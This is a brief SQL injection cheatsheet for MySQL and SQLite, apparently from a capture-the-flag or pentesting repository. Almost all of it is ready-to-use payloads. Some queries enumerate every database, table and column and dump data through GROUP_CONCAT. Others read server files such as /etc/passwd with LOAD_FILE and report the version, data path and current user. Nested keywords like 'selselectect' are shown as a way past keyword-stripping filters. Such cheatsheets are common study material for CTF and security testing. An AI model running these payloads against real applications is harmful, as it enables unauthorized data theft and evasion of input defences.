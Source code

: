 MySQL Injection Syntax Cheatsheet
=============

> John Hammond 


Leak all of the database names as a string
-----------------------------

```
SELECT GROUP_CONCAT( SCHEMA_NAME ) FROM INFORMATION_SCHEMA.SCHEMATA
```

Leak all of the tables in one database as a string
-----------

```
SELECT GROUP_CONCAT( TABLE_NAME ) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="<DATABASE_NAME>"
```

Leak the column names of a table as a string
------------------

```
SELECT GROUP_CONCAT( COLUMN_NAME ) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="<TABLE NAME>"
```

Leak the ONE column from a table
------------------

```
SELECT GROUP_CONCAT( "<COLUMN_NAME>" ) FROM "<TABLE NAME>"
```

___IF THIS DOES NOT WORK, TRY WITHOUT THE QUOTES!!___


Get the path of the running MySQL instance
------------------


```
SELECT @@datadir
```

Get the version of the running MySQL instance
------------------

```
SELECT @@version
```


Get current user
------------------


```
SELECT user();
```

```
SELECT system_user();
```

Read a file
------------------


```
SELECT LOAD_FILE("/etc/passwd");
```



Etcetera..
------

Some applications try to replace keywords with an empty string. If this is the case, try and trick it by placing the keyword inside of itself. This is devious! 

```
frfromom => from
oorr => or
loaload_filed_file => load_file
selselectect => select
```


---------------------------------

SQLite Injection
=================

Leak all the table names as a string
----------

```
SELECT GROUP_CONCAT(name) FROM sqlite_master
```

Leak all the column names from a table as a string
----------

```
SELECT GROUP_CONCAT(sql) FROM sqlite_master WHERE tbl_name = '<TABLE_NAME>' AND type = 'table'
```

Leak ONE column from a table
--------

```
SELECT GROUP_CONCAT(<COLUMN_NAME>) FROM <TABLE_NAME>
```
